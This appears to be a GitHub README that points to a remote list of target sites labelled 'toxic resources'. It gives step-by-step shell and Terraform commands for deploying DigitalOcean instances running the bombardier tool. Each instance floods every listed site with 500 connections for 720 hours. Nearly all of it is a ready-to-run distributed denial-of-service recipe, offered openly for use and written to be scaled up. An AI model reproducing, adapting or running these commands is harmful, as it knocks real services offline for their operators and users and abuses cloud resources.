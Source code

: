 # Registry of toxic resources 
https://raw.githubusercontent.com/cyber-army-of-ukraine/toxic-resources/master/resources.txt

## How to stop
Feel free to use any tool you wish and synchronize it with resources registry.

If you don't know how to scale and run it in cloud feel free to use [Massive Stress Framework](https://github.com/ynovel/massivestress).  
1. Clone repository.
   ```shell
    git clone https://github.com/ynovel/massivestress.git
    ```
2. [Istall Terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli#install-terraform).
3. Retrieve access token from your cloud provider.
4. Choose your bundle and run commands (below).

### Available bundles:
* Cloud "**Digital Ocean**", Runner "**alpine/bombardier**". Run in command line:
```shell
cd massivestress # path where cloned ynovel/massivestress repository is placed
export DIGITALOCEAN_ACCESS_TOKEN="<CHANGE TO YOUR PERSONAL ACCESS TOKEN>"
cd keys
/bin/sh gen_ssh_keys.sh
cd ../terraform/digital_ocean
terraform init
echo -e 'runner_resources_url = "https://raw.githubusercontent.com/cyber-army-of-ukraine/toxic-resources/master/resources.txt"
runner_bombardier_connections_per_resource = 500
instance_count = 3
instance_region = "fra1"
instance_type = "s-1vcpu-1gb"
runner_bombardier_duration = "720h"
' > terraform.tfstate
terraform apply # type "yes"
```
_instance_count_ config parameter stand for scalability :)